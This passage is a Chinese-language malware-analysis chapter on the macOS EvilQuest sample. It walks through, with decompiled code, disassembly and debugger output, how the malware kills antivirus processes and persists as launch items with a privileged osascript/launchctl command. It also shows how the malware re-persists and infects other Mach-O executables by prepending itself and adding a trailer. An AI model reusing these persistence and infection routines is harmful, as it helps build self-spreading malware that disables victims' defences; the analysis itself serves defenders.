



# 第十一章：EvilQuest 的持久性和核心功能分析


现在我们已经分析了 EvilQuest 样本，并且成功破解了其反分析逻辑，我们可以继续进行分析。在本章中，我们将详细介绍该恶意软件的持久性方法，确保每次感染的系统重启时它都能自动重启。然后，我们将深入探讨这一隐秘威胁所支持的各种功能。

## 持久性

在第十章中，您看到恶意软件调用了一个可能与持久性相关的函数，名为`ei_persistence_main`。让我们更仔细地看一下这个函数，它位于`0x000000010000b880`。 列表 11-1 是该函数的简化反编译版：

```
int ei_persistence_main(...) {

    if (is_debugging(...) != 0) {
 exit(1);
    }
    prevent_trace();
    kill_unwanted(...);
    persist_executable(...);
    install_daemon(...);
    install_daemon(...);
    ei_selfretain_main(...);
    ...
}
```

列表 11-1：`ei_persistence_main`，反编译版

如您所见，在保持持久性之前，恶意软件调用了`is_debugging`和`prevent_trace`函数，这些函数旨在防止通过调试器进行动态分析。我们在上一章中讨论了如何破解这些函数。由于这些函数容易绕过，因此它们并不会对我们的后续分析构成任何实际障碍。

接下来，恶意软件调用多个函数，杀死与杀毒软件或分析软件相关的进程，然后作为启动代理和启动守护进程保持持久性。让我们深入了解这些函数的机制。

### 杀死不需要的进程

在反调试逻辑之后，恶意软件调用了一个名为`kill_unwanted`的函数。该函数首先通过调用恶意软件的一个辅助函数`get_process_list`（`0x0000000100007c40`）列举所有正在运行的进程。如果我们反编译这个函数，就可以确定它使用了苹果的`sysctl` API 来检索正在运行的进程列表（列表 11-2）：

```
1 0x00000001000104d0  dd 0x00000001, 0x0000000e, 0x00000000

get_process_list(void* processList, int* count) 
{

 2 sysctl(0x1000104d0, 0x3, 0x0, &size, 0x0, 0x0); 

   void* buffer = malloc(size); 

 3 sysctl(0x1000104d0, 0x3, &buffer, &size, 0x0, 0x0);
```

列表 11-2：通过`sysctl` API 列举进程

请注意，在`0x00000001000104d0` 1 处发现了一个包含三项的数组。当这个数组传递给`sysctl` API 时，这为我们提供了上下文，能够将常量映射到`CTL_KERN`（`0x1`）、`KERN_PROC`（`0xe`）和`KERN_PROC_ALL`（`0x0`）。还要注意，当第一次调用`sysctl` API 2 时，`size`变量将被初始化为存储所有进程列表的空间（因为缓冲区参数为`0x0`，即 null）。代码为这个列表分配了一个缓冲区，然后再次调用`sysctl` 3，并传递这个新分配的缓冲区来获取所有进程的列表。

一旦 EvilQuest 获得了正在运行的进程列表，它会遍历这个列表，将每个进程与硬编码在恶意软件中的加密程序列表进行比较，并存储在名为`EI_UNWANTED`的全局变量中。借助我们可注入的解密器库，我们可以恢复解密后的程序列表，如列表 11-3 所示：

```
% **DYLD_INSERT_LIBRARIES/tmp/deobfuscator.dylib patch**
...
decrypted string (0x10eb6893f): Little Snitch
decrypted string (0x10eb6895f): Kaspersky
decrypted string (0x10eb6897f): Norton
decrypted string (0x10eb68993): Avast
decrypted string (0x10eb689a7): DrWeb
decrypted string (0x10eb689bb): Mcaffee
decrypted string (0x10eb689db): Bitdefender
decrypted string (0x10eb689fb): Bullguard
```

列表 11-3：EvilQuest 的“不需要的”程序

如你所见，这是一份常见的安全和杀毒软件的列表（尽管其中有些，比如“Mcaffee”，拼写错误），这些软件可能会抑制或检测恶意软件的行为。

如果 EvilQuest 找到一个与`EI_UNWANTED`列表中的项匹配的进程，它会终止该进程并移除其可执行位（列表 11-4）。

```
0x00000001000082fb    mov        rdi, qword [rbp+currentProcess]
0x00000001000082ff    mov        rsi, rax   ;each item from EI_UNWANTED
0x0000000100008302    call       strstr
0x0000000100008307    cmp        rax, 0x0
0x000000010000830b    je         noMatch

0x0000000100008311    mov        edi, dword [rbp+currentProcessPID]
0x0000000100008314    mov        esi, 0x9 
1 0x0000000100008319    call       kill 
0x000000010000832e    mov        rdi, qword [rbp+currentProcess]
0x0000000100008332    mov        esi, 0x29a 
2 0x0000000100008337    call       chmod 
```

列表 11-4：被终止的进程

如果正在运行的进程匹配不需要的项，恶意软件首先会调用`kill`系统调用，发送`SIGKILL`（`0x9`）信号。然后，为了防止未来不需要的进程被执行，它会使用`chmod`手动移除该进程的可执行位。传递给`chmod`的值`0x29a`（十进制为`666`）指示它移除所有者、组和其他权限的可执行位。

我们可以在调试器中观察到这一过程，通过启动恶意软件（回想一下，它已被复制到*/Library/mixednkey/toolroomd*）并在调用`kill`时设置断点，`kill`在反汇编中位于`0x100008319`。如果我们随后创建一个与不想要的列表中的任何项匹配的进程，如“Kaspersky”，断点将会被触发，如列表 11-5 所示：

```
# lldb /Library/mixednkey/toolroomd
...
(lldb) **b 0x100008319**
Breakpoint 1: where = toolroomd`toolroomd[0x0000000100008319], address = 0x0000000100008319

(lldb) **r**
...

Process 1397 stopped
* thread #1, queue = 'com.apple.main-thread', stop reason = breakpoint 1.1
->  0x100008319: callq  0x10000ff2a  ;kill
    0x10000831e: cmpl   $0x0, %eax

(lldb) **reg read $rdi**
rdi = 0x00000000000005b1 1
(lldb) **reg read $rsi**
rsi = 0x0000000000000009 2
```

列表 11-5：在调试器中观察到的被终止的进程

转储传递给`kill`的参数显示，EvilQuest 确实向我们的测试进程“Kaspersky”（进程 ID：`0x5B1`）发送了`SIGKILL`（`0x9`）信号。

### 复制自身

一旦恶意软件终止了它认为不需要的程序，它会调用名为`persist_executable`的函数，将自身复制到用户的*Library/*目录下，路径为*AppQuest/com.apple.questd*。我们可以通过使用 FileMonitor 被动地观察到这一过程（列表 11-6 所示）：

```
# FileMonitor.app/Contents/MacOS/FileMonitor -pretty -filter toolroomd
{
  "event" : "ES_EVENT_TYPE_NOTIFY_CREATE",
  "file" : {
    "destination" : "/Users/user/Library/AppQuest/com.apple.questd",
    "process" : {
      ...
      "pid" : 1505 
      "name" : "toolroomd",
      "path" : "/Library/mixednkey/toolroomd",
    }
  }
}
```

列表 11-6：在 FileMonitor 中看到的恶意软件复制操作的开始

如果恶意软件以 root 身份运行（因为安装程序请求了提升权限，这很可能发生），它还会将自身复制到*/Library/AppQuest/com.apple.questd。对这两个文件进行哈希验证确认它们确实是恶意软件的精确副本（列表 11-7 所示）：*

*```
% **shasum /Library/mixednkey/toolroomd**
efbb681a61967e6f5a811f8649ec26efe16f50ae

% **shasum /Library/AppQuest/com.apple.questd**
efbb681a61967e6f5a811f8649ec26efe16f50ae

% **shasum ~/Library/AppQuest/com.apple.questd**
efbb681a61967e6f5a811f8649ec26efe16f50ae
```

列表 11-7：哈希值确认副本是相同的

### 将副本持久化为启动项

一旦恶意软件复制完成，它会将这些副本作为启动项持久化。负责这一逻辑的函数名为`install_daemon`（位于`0x0000000100009130`），并且它会被调用两次：第一次创建启动代理，第二次创建启动守护进程。后者需要 root 权限。

为了观察这一过程，让我们转储第一次调用`install_daemon`时传递的参数，如列表 11-8 所示：

```
# lldb /Library/mixednkey/toolroomd
...

(lldb) **b 0x0000000100009130**
Breakpoint 1: where = toolroomd`toolroomd[0x0000000100009130], address = 0x0000000100009130

(lldb) **c**

Process 1397 stopped
* thread #1, queue = 'com.apple.main-thread', stop reason = breakpoint 1.1
->  0x100009130: pushq  %rbp
    0x100009131: movq   %rsp, %rbp

(lldb) **x/s $rdi**
0x7ffeefbffc94: "/Users/user"

(lldb) **x/s $rsi**
0x100114a20: "%s/Library/AppQuest/com.apple.questd"

(lldb) **x/s $rdx**
0x100114740: "%s/Library/LaunchAgents/" 
```

列表 11-8：传递给`install_daemon`函数的参数

使用这些参数，函数构建了恶意软件持久二进制文件（*com.apple.questd*）的完整路径，以及用户的启动代理目录路径。然后，它会向后者附加一个解密为*com.apple.questd.plist*的字符串。正如你即将看到的，这个文件用于保持恶意软件的持久性。

接下来，如果我们继续调试会话，我们将看到一个调用恶意软件字符串解密函数`ei_str`的过程。该函数返回后，我们在`RAX`寄存器中找到了一个解密后的启动项属性列表模板（见清单 11-9）：

```
# lldb /Library/mixednkey/toolroomd
...

(lldb) **x/i $rip**
-> 0x1000091bd: e8 5e 7a ff ff  callq  0x100000c20 ;ei_str

(lldb) **ni**

(lldb) **x/s $rax**
0x100119540: "<?xml version="1.0" encoding="UTF-8"?>\n<!DOCTYPE plist PUBLIC "-//Apple//DTD PLIST 1.0//EN" "http://www.apple.com/DTDs/PropertyList-1.0.dtd">\n<plist version="1.0">\n<dict>\n<key>Label</key>\n<string>%s</string>\n\n<key>ProgramArguments</key>\n<array>\n<string>%s</string>\n<string>--silent</string>\n</array>\n\n<key>RunAtLoad</key>\n<true/>\n\n<key>KeepAlive</key>\n<true/>\n\n</dict>\n</plist>"
```

清单 11-9：一个（已解密的）启动项属性列表模板

在恶意软件解密了 plist 模板后，它将其配置为名称“questd”并填入其最近副本的完整路径，*／Users/user/Library/AppQuest/com.apple.questd*。配置完成后，恶意软件使用刚才创建的启动代理路径写出 plist 文件，如清单 11-10 所示：

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE plist PUBLIC "-//Apple//DTD PLIST 1.0//EN"
"http://www.apple.com/DTDs/PropertyList-1.0.dtd">
<plist version="1.0">
<dict>
    <key>Label</key>
    <string>questd</string>

    <key>ProgramArguments</key>
    <array>
        <string>/Users/user/Library/AppQuest/com.apple.questd</string>
        <string>--silent</string>
    </array>

  1 <key>RunAtLoad</key>
    <true/>

    <key>KeepAlive</key>
    <true/>
</dict>
```

清单 11-10：恶意软件的启动代理 plist（*~**/Library/LaunchAgents/com.apple.questd.plist*）

由于`RunAtLoad`键在 plist 中设置为`true` 1，操作系统将在用户每次登录时自动重新启动指定的二进制文件。

第二次调用`install_daemon`函数时，函数执行了类似的过程。不过这次，它在*/Library/LaunchDaemons/com.apple.questd.plist*创建了一个启动守护进程，而不是启动代理，并引用了在*Library/*目录下创建的第二个恶意软件副本（见清单 11-11）：

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE plist PUBLIC "-//Apple//DTD PLIST 1.0//EN" "http://www.apple.com/DTDs/PropertyList-1.0.dtd">
<plist version="1.0">
<dict>
    <key>Label</key>
    <string>questd</string>

    <key>ProgramArguments</key>
    <array>
      1 <string>sudo</string>
        <string>/Library/AppQuest/com.apple.questd</string>
        <string>--silent</string>
    </array>

  2 <key>RunAtLoad</key>
    <true/>

    <key>KeepAlive</key>
    <true/>

</dict>
```

清单 11-11：恶意软件的启动守护进程 plist（*/Library/LaunchDaemons/com.apple.questd.plist*）

再次，`RunAtLoad`键被设置为`true` 2，因此系统每次重启时都会自动启动守护进程的二进制文件。（请注意，由于启动守护进程始终以 root 权限运行，`sudo`的加入是多余的 1。）这意味着在重启后，恶意软件将以两种方式运行：一种是作为启动守护进程，另一种是作为启动代理（见清单 11-12）：

```
% **ps aux | grep -i com.apple.questd**
root     97    sudo /Library/AppQuest/com.apple.questd --silent
user     541   /Users/user/Library/AppQuest/com.apple.questd –silent
```

清单 11-12：恶意软件，作为启动守护进程和代理同时运行

### 启动启动项

一旦恶意软件确保了其持久性已建立两次，它会调用`ei_selfretain_main`函数来启动启动项。在检查该函数的反汇编代码时，我们注意到有两次调用名为`run_daemon`的函数（见清单 11-13）：

```
ei_selfretain_main:
0x000000010000b710    push       rbp
0x000000010000b711    mov        rbp, rsp
...
0x000000010000b7a6    call       run_daemon 
...
0x000000010000b7c8    call       run_daemon
```

清单 11-13：`run_daemon`函数被调用两次

进一步分析显示，这个函数接受一个路径组件和启动项的名称来启动。例如，第一次调用（位于`0x000000010000b7a6`）是针对启动代理的。我们可以通过在调试器中打印出前两个参数（分别位于`RDI`和`RSI`寄存器）来确认这一点，具体见清单 11-14：

```
# lldb /Library/mixednkey/toolroomd
...

Process 1397 stopped
* thread #1, queue = 'com.apple.main-thread', stop reason = instruction step over
->  0x10000b7a6: callq  run_daemon

(lldb) **x/s $rdi**
0x100212f90: "%s/Library/LaunchAgents/"

(lldb) **x/s $rsi**
0x100217b40: "com.apple.questd.plist"
```

清单 11-14：传递给`run_daemon`函数的参数

下次调用`run_daemon`函数时（在`0x000000010000b7c8`），它会带着路径组件和启动守护进程的名称一起被调用。

检查`run_daemon`函数，我们看到它首先调用了一个名为`construct_plist_path`的辅助函数，传入了两个与路径相关的参数（由`run_daemon`传入）。顾名思义，`construct_plist_path`函数的目标是构建一个指向指定启动项的 plist 的完整路径。Listing 11-15 是它反汇编的一部分：

```
construct_plist_path:
0x0000000100002900    push       rbp
0x0000000100002901    mov        rbp, rsp
...
0x0000000100002951    lea        rax, qword [aSs_10001095a]    ; "%s/%s"
0x0000000100002958    mov        qword [rbp+format], rax
...
0x00000001000029a9    xor        esi, esi
0x00000001000029ab    mov        rdx, 0xffffffffffffffff
0x00000001000029b6    mov        rdi, qword [rbp+path]
0x00000001000029ba    mov        rcx, qword [rbp+format]
0x00000001000029be    mov        r8, qword [rbp+arg_1]
0x00000001000029c2    mov        r9, qword [rbp+arg_2]

1 0x00000001000029c8    call       sprintf_chk
```

Listing 11-15: 构建启动项属性列表的路径

该函数的核心逻辑就是通过`sprintf_chk`函数将两个参数拼接在一起 1。

一旦`construct_plist_path`返回已构建的路径，`run_daemon`函数会解密一个长字符串，这个字符串是加载命令的模板，然后通过`AppleScript`启动指定的进程：

```
osascript -e "do shell script \"launchctl load -w %s;launchctl start %s\" 
with administrator privileges"
```

这个模板命令接着会被填充上由`construct_plist_path`返回的启动项路径，以及启动项的名称“questd”。完整的命令会被传递给`system` API 执行。我们可以通过进程监视器观察到这一点（Listing 11-16）：

```
**# ProcessMonitor.app/Contents/MacOS/ProcessMonitor -pretty**
{
  "event" : "ES_EVENT_TYPE_NOTIFY_EXEC",
  "process" : {
    ...
    "id" : 0,
    "arguments" : [
    1 "osascript", 
      "-e",
    2 "do shell script \"launchctl load -w 
       /Library/LaunchDaemons/com.apple.questd.plist
       launchctl start questd\" with administrator privileges"
    ],
    "pid" : 1579,
    "name" : "osascript",
    "path" : "/usr/bin/osascript"
  }
}
```

Listing 11-16: 观察`AppleScript`启动启动项

如你所见，`run_daemon`函数的调用执行了`osascript`1，并携带了启动命令、路径和启动项的名称 2。你可能已经注意到，恶意软件在加载启动项时的代码中存在一个细微的 bug。回想一下，为了构建要启动的启动项的完整路径，`construct_plist_path`函数会将提供的两个路径组件拼接在一起。对于启动代理而言，这个路径包含一个`%s`，这个`%s`应该在运行时用当前用户的名称填充。但这一过程从未发生。因此，拼接生成了一个无效的 plist 路径，手动加载启动代理失败。由于启动守护进程的路径组件是绝对路径，因此无需任何替换，守护进程成功启动。MacOS 在重启时会枚举所有已安装的启动项 plist，因此它会找到并加载启动守护进程和启动代理。

## Repersistence 逻辑

恶意软件常常会保持持久性，但 EvilQuest 通过一种自我保持机制进一步增强了这一点。如果它的任何持久性组件被删除，它会重新保持自身。这种自我防御机制可能会挫败那些试图清除 EvilQuest 根植系统的用户或杀毒工具。我们第一次遇到这个保持持久性逻辑是在第十章，当时我们注意到*patch*二进制文件没有包含任何“尾部”数据，因此跳过了与保持持久性相关的代码块。现在，让我们看看恶意软件是如何实现这种自我防御的保持持久性逻辑的。

你可以在恶意软件的主函数中找到这段逻辑的起始位置，地址为 `0x000000010000c24d`，在那里创建了一个新线程。该线程的起始例程是一个名为 `ei_pers_thread`（“持久化线程”）的函数，位于 `0x0000000100009650`。分析该函数的反汇编代码会发现，它创建了一个文件路径数组，并将这些路径传递给一个名为 `set_important_files` 的函数。我们可以在 `set_important_files` 函数的起始处设置一个断点，以便查看这个文件路径数组（列表 11-17）：

```
# lldb /Library/mixednkey/toolroomd
...

(lldb)**b 0x000000010000d520**
Breakpoint 1: where = toolroomd`toolroomd[0x000000010000D520], address = 0x000000010000D520

(lldb) **c**
...

Process 1397 stopped
* thread #2, stop reason = breakpoint 1.1
-> 0x10000d520: 55        pushq  %rbp
   0x10000d521: 48 89 e5  movq   %rsp, %rbp

(lldb) **p ((char**)$rdi)[0]**
0x0000000100305e60 "/Library/AppQuest/com.apple.questd"
(lldb) **p ((char**)$rdi)[1]**
0x0000000100305e30 "/Users/user/Library/AppQuest/com.apple.questd"
(lldb) **p ((char**)$rdi)[2]**
0x0000000100305ee0 "/Library/LaunchDaemons/com.apple.questd.plist"
(lldb) **p ((char**)$rdi)[3]**
0x0000000100305f30 "/Users/user/Library/LaunchAgents/com.apple.questd.plist"
```

列表 11-17: “重要”文件

如你所见，这些文件路径看起来像是恶意软件的持久化启动项及其对应的二进制文件。那么 `set_important_files` 函数是如何处理这些文件的呢？首先，它通过 `kqueue` 打开一个内核队列，并将这些文件添加到队列中，以指示系统监视它们。Apple 关于内核队列的文档指出，程序应调用 `kevent` 函数并在循环中等待，以监控诸如文件系统通知之类的事件。^(1) EvilQuest 遵循了这一建议，确实在循环中调用了 `kevent`。现在，如果被监视的文件发生修改或删除等事件，系统将发出通知。通常代码会对这种事件做出反应，但在这个版本的恶意软件中，`kqueue` 逻辑是不完整的：恶意软件没有包含对这些事件的实际响应逻辑。

尽管有此遗漏，EvilQuest 仍然会根据需要持久化其组件，因为它多次调用了最初的持久化函数。我们可以手动删除恶意软件的一个持久化组件，并使用文件监视器观察恶意软件恢复该文件（列表 11-18）：

```
# rm /Library/LaunchDaemons/com.apple.questd.plist
# ls /Library/LaunchDaemons/com.apple.questd.plist
ls: /Library/LaunchDaemons/com.apple.questd.plist: No such file or directory

# FileMonitor.app/Contents/MacOS/FileMonitor -pretty -filter com.apple.questd.plist
{
  "event" : "ES_EVENT_TYPE_NOTIFY_WRITE", 
  "file" : {
    "destination" : "/Library/LaunchDaemons/com.apple.questd.plist",
    "process" : {
      "path" : "/Library/mixednkey/toolroomd",
      "name" : "toolroomd",
      "pid" : 1369
    }
  }
}

# ls /Library/LaunchDaemons/com.apple.questd.plist
**/Library/LaunchDaemons/com.apple.questd.plist**
```

列表 11-18: 观察持久化逻辑

一旦恶意软件成功持久化并在必要时生成了一个线程以进行再次持久化，它便开始执行其核心功能。这些功能包括病毒感染、文件外泄、远程任务和勒索软件。让我们现在来看看这些功能。

## 本地病毒感染逻辑

在 Peter Szor 的经典著作《*计算机病毒研究与防御艺术*》中，我们找到了一个简明的计算机病毒定义，出处是 Dr. Frederick Cohen：

> 病毒是一个能够通过修改其他程序，将自己可能演化后的副本植入其中，从而感染其他程序的程序。^(2)

真正的病毒在 macOS 上非常罕见。大多数针对该操作系统的恶意软件是自包含的，并且一旦入侵系统后不会在本地复制。EvilQuest 是一个例外。在这一节中，我们将探讨它如何能够通过病毒式传播到其他程序，使得清除它的尝试变成一项相当复杂的工作。

### 列表 感染候选文件

EvilQuest 开始其病毒感染逻辑时调用了一个名为 `ei_loader_main` 的函数。列表 11-19 显示了该函数的相关代码片段：

```
 int _ei_loader_main(...) {
  ...

  *(args + 0x8) = 1 ei_str("26aC391KprmW0000013");

  pthread_create(&threadID, 0x0, 2 ei_loader_thread, args);
```

列表 11-19: 创建后台线程

首先，`ei_loader_main`函数解密一个字符串。使用第十章讨论的解密技术，我们可以恢复它的明文值`"/Users"`。然后，函数创建一个后台线程，启动例程设置为`ei_loader_thread`函数。解密后的字符串作为参数传递给这个新线程。

现在让我们来看看`ei_loader_thread`函数，注释后的反汇编代码显示在清单 11-20 中：

```
int ei_loader_thread(void* arg0) {
    ...
    result = get_targets(*(arg0 + 0x8), &targets, &count, is_executable); 
    if (result == 0x0) {
          for (i = 0x0; i < count; i++) {
               if (append_ei(arg0, targets[i]) == 0x0) {
                     infectedFiles++;
               }
          }
    }

    return infectedFiles;
}
```

清单 11-20：`ei_loader_thread`函数

首先，它调用一个名为`get_targets`的辅助函数，解密后的字符串作为参数传递给线程函数，包含各种输出变量和一个名为`is_executable`的回调函数。

如果我们检查`get_targets`函数（位于`0x000000010000e0d0`），我们会看到，对于给定的根目录（比如`*/Users*`），`get_targets`函数调用`opendir`和`readdir` API 递归生成文件列表。然后，对于每个遇到的文件，都会调用回调函数（如`is_executable`）。这允许通过某些约束过滤枚举的文件列表。

### 检查是否感染每个文件

`is_executable`函数执行多个检查，只选择列表中小于 25MB 的非应用程序 Mach-O 可执行文件。如果你查看`is_executable`的注释反汇编代码，从`0x0000000100004ac0`开始，你会看到第一个检查，它确认该文件不是应用程序（见清单 11-21）：

```
0x0000000100004acc    mov       rdi, qword [rbp+path]
0x0000000100004ad0    lea       rsi, qword [aApp]         ; ".app/" 1
0x0000000100004ad7    call      strstr 2
0x0000000100004adc    cmp       rax, 0x0                  ; substring not found
0x0000000100004ae0    je        continue
0x0000000100004ae6    mov       dword [rbp+result], 0x0 3
0x0000000100004aed    jmp       leave
```

清单 11-21：`is_executable`函数的核心逻辑

我们可以看到，`is_executable`首先使用`strstr`函数检查传入的路径是否包含`".app/"`。如果包含，`is_executable`函数将提前返回`0x0`，这意味着恶意软件跳过了应用程序包中的二进制文件。

对于非应用程序文件，`is_executable`函数打开文件并读取`0x1c`字节，如清单 11-22 所示：

```
stream = fopen(path, "rb");
if (stream == 0x0) {
   result = -1;
}
else {
   rax = fread(&bytesRead, 0x1c, 0x1, stream);
```

清单 11-22：读取候选文件的开头

然后，它通过查找文件末尾（通过`fseek`）并检索文件流的位置（通过`ftell`）来计算文件的大小。如果文件的大小大于`0x1900000`字节（25MB），`is_executable`函数将为该文件返回`0`（见清单 11-23）：

```
fseek(stream, 0x0, 0x2);
size = ftell(stream);
if (size > 0x1900000) {
    result = 0x0;
}
```

清单 11-23：计算候选文件的大小

接下来，`is_executable`函数通过检查文件是否以 Mach-O 的“魔法”值开始来判断文件是否为 Mach-O 二进制文件。在第五章中，我们注意到 Mach-O 头部总是以某个值开始，这个值可以识别该二进制文件是 Mach-O 格式。你可以在 Apple 的*mach-o/loader.h*中找到所有魔法值的定义。例如，`0xfeedface`是 32 位 Mach-O 二进制文件的“魔法”值（见清单 11-24）：

```
0x0000000100004b8d    cmp       dword [rbp+header.magic], 0xfeedface 
0x0000000100004b94    je        continue
0x0000000100004b9a    cmp       dword [rbp+header.magic], 0xcefaedfe
0x0000000100004ba1    je        continue
0x0000000100004ba7    cmp       dword [rbp+header.magic], 0xfeedfacf
0x0000000100004bae    je        continue
0x0000000100004bb4    cmp       dword [rbp+header.magic], 0xcffaedfe
0x0000000100004bbb    jne       leave
```

清单 11-24：检查 Mach-O 常量

为了提高反汇编的可读性，我们指示 Hopper 将从文件开始处读取的字节视为 Mach-O 头结构（图 11-1）。



图 11-1：将文件头类型转换为 Mach-O 头

最后，该函数检查文件的 Mach-O 头部中的`filetype`成员，以确定它是否包含值`0x2`（清单 11-25）：

```
0x0000000100004bc1    cmp       dword [rbp+header.filetype], 0x2
0x0000000100004bc5    jne       leave
0x0000000100004bcb    mov       dword [rbp+result], 0x1
```

清单 11-25：检查文件的 Mach-O 类型

我们可以查阅 Apple 的 Mach-O 文档了解到，如果文件是标准可执行文件而不是动态库或捆绑包，则该成员将被设置为`0x2`（`MH_EXECUTE`）。

一旦`is_executable`完成这些检查，它将返回一个符合其标准的文件列表。

### 感染目标文件

对于每个被识别为感染候选的文件，恶意软件会调用一个名为`append_ei`的函数，该函数包含实际的病毒感染逻辑。大体上，该函数通过以下方式修改目标文件：将恶意软件的副本添加到文件前面；然后附加一个尾部，包含感染标识符和指向文件原始代码的偏移量。

我们可以通过将我们自己的二进制文件放入用户的主目录中，并在调试器中运行恶意软件，观察它与我们的文件互动，来看到这种病毒性感染的作用。任何小于 25MB 的 Mach-O 二进制文件都可以工作。在这里，我们将使用通过在 Xcode 中编译 Apple 的示例“Hello, World!”代码生成的二进制文件。

在调试器中，在`0x0000000100004bf0`处设置一个断点，针对`append_ei`函数，正如清单 11-26 所示：

```
# lldb /Library/mixednkey/toolroomd
...

(lldb)**b 0x0000000100004bf0**
Breakpoint 1: where = toolroomd`toolroomd[0x0000000100004bf0], address = 0x0000000100004bf0

(lldb) **c**

Process 1369 stopped
* thread #3, stop reason = breakpoint 1.1
(lldb) **x/s $rdi**
0x7ffeefbffcf0: "/Library/mixednkey/toolroomd"

(lldb) **x/s $rsi**
0x100323a30: "/Users/user/HelloWorld"
```

清单 11-26：传递给`append_ei`函数的参数

当断点被触发时，请注意该函数是以两个参数调用的，分别存储在`RDI`和`RSI`寄存器中：恶意软件的路径和要感染的目标文件。接下来，`append_ei`调用`stat`函数检查目标文件是否可访问。你可以在清单 11-27 的注释反汇编中看到这一点：

```
if(0 != stat(targetPath, &buf) )
{
    return -1;
}
```

清单 11-27：检查候选文件的可访问性

然后，源文件会完全读取到内存中。在调试器中，我们看到这个文件就是恶意软件本身。它将以病毒方式被添加到目标二进制文件中（清单 11-28）。

```
FILE* src = fopen(sourceFile, "rb");

fseek(src, 0, SEEK_END);
int srcSize = ftell(src);
fseek(src, 0, SEEK_SET);

char* srcBytes = malloc(srcSize);
fread(srcBytes, 0x1, srcSize, src);
```

清单 11-28：恶意软件，读取自身到内存中

一旦恶意软件被读取到内存中，目标二进制文件就会被打开并完全读取到内存中（清单 11-29）。注意，它是以更新模式（使用`rb+`）打开的，因为恶意软件很快会对其进行修改 1。

```
1 FILE* target = fopen(targetFile, "rb+"); 

fseek(target, 0, SEEK_END);
int targetSize = ftell(target);
fseek(target, 0, SEEK_SET);

char* targetBytes = malloc(targetSize);
fread(targetBytes, 0x1, targetSize, target);
```

清单 11-29：将目标二进制文件读取到内存中

接下来，`append_ei`函数中的代码检查目标文件是否已经被感染（对同一个二进制文件进行两次感染没有意义）。为此，代码调用了一个名为`unpack_trailer`的函数。该函数位于`0x00000001000049c0`，它会查找附加到感染文件末尾的“尾部”数据。稍后我们将讨论这个函数和尾部数据的详细信息。现在需要注意的是，如果调用`unpack_trailer`返回尾部数据，EvilQuest 就知道文件已经被感染，`append_ei`函数将退出（见列表 11-30）：

```
0x0000000100004e6a    call       unpack_trailer
0x0000000100004e6f    mov        qword [rbp+trailerData], rax

0x0000000100004e82    cmp        qword [rbp+trailerData], 0x0
0x0000000100004e8a    je         continue
...
0x0000000100004eb4    mov        dword [rbp+result], 0x0
0x0000000100004ec1    jmp        leave

continue:
0x0000000100004ec6    xor        eax, eax
```

列表 11-30：检查目标文件是否已经感染

假设目标文件尚未感染，恶意软件会用其自身覆盖目标文件。为了保持目标文件的功能，`append_ei` 函数接着会将文件原始的字节追加上去，这些字节已经被读取到内存中（见列表 11-31）：

```
fwrite(srcBytes, 0x1, srcSize, target);

fwrite(targetBytes, 0x1, targetSize, target);
```

列表 11-31：将恶意软件和目标文件写入磁盘

最后，恶意软件初始化尾部，并使用`pack_trailer`函数对其进行格式化。然后，尾部被写入感染文件的末尾，如列表 11-32 所示：

```
int* trailer = malloc(0xC);

trailer[0] = 0x3;
trailer[1] = srcSize;
trailer[2] = 0xDEADFACE;
packedTrailer = packTrailer(&trailer, 0x0);

fwrite(packedTrailer, 0x1, 0xC, target);
```

列表 11-32：将尾部写入磁盘

该尾部包含一个字节值`0x3`，后面跟着恶意软件的大小。由于恶意软件被插入到目标文件的开头，因此该值也是感染文件原始字节的偏移量。正如你所看到的，恶意软件使用这个值在执行时恢复被感染二进制文件的原始功能。尾部还包含一个感染标记`0xdeadface`。表格 11-1 展示了最终文件的布局。

表格 11-1：病毒感染逻辑创建的文件结构

| 病毒代码 |
| --- |
| 原始代码 |
| 尾部 `0x3` &#124; 病毒代码的大小（原始代码的偏移） &#124; `0xdeadface` |

让我们检查被感染的*HelloWorld*二进制文件，以确认它是否符合这种布局。查看列表 11-33 中的十六进制转储：

```
% **hexdump -C HelloWorld**

00000000  cf fa ed fe 07 00 00 01  03 00 00 80 02 00 00 00  |................|
00000010  12 00 00 00 c0 07 00 00  85 00 20 04 00 00 00 00  |.......... .....|
00000020  19 00 00 00 48 00 00 00  5f 5f 50 41 47 45 5a 45  |....H...__PAGEZE|
00000030  52 4f 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |RO..............|

00015770  cf fa ed fe 07 00 00 01  03 00 00 00 02 00 00 00  |................| 1
00015780  14 00 00 00 08 07 00 00  85 00 20 00 00 00 00 00  |.......... .....|
00015790  19 00 00 00 48 00 00 00  5f 5f 50 41 47 45 5a 45  |....H...__PAGEZE|
000157a0  52 4f 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |RO..............|

000265b0  03 70 57 01 00 ce fa ad  de                       |.pW......| 2
```

列表 11-33：感染文件的十六进制转储

十六进制转储以小端顺序显示字节值。我们发现恶意软件的 Mach-O 二进制代码位于二进制文件的开头，而原始的*Hello World*代码从偏移`0x15770` 1 开始。在文件的末尾，我们看到了打包的尾部：`03 70 57 01 00 ce fa ad de` 2。第一个值是字节`0x3`，而后面的两个值按 32 位十六进制整数查看为`0x00015770`，即恶意软件的大小和指向原始字节的偏移量，`0xdeadface`为感染标记。

### 从感染文件执行并重新持久化

